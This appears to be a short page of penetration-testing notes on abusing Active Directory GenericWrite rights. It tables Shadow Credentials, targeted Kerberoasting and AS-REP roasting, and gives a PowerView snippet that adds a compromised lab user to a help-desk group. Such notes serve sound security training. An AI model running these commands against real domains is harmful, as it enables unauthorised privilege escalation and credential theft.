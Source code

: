 # GenericWrite

## Over a User

<table><thead><tr><th width="226">Attack</th><th>Description</th></tr></thead><tbody><tr><td><a href="../attacks/adcs.md#shadow-credentials">Shadow Credentials</a></td><td>Abuses write access to a user/computer’s <code>msDS-KeyCredentialLink</code> to add authentication material and impersonate them via PKINIT</td></tr><tr><td><a href="../attacks/kerberoasting.md#targeted-kerberoast">Targeted Kerberoasting</a></td><td>Requests a service ticket (TGS) for a specific SPN to extract and crack the associated service account’s NTLM hash.</td></tr><tr><td><a href="../attacks/as-reproasting.md#targeted-as-reproast">Targeted ASREPRoasting</a></td><td>Requests an AS-REP for a user without Kerberos pre-authentication, allowing offline cracking of their NTLM hash.</td></tr></tbody></table>

## Over a Group

#### Adding Group Member

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}
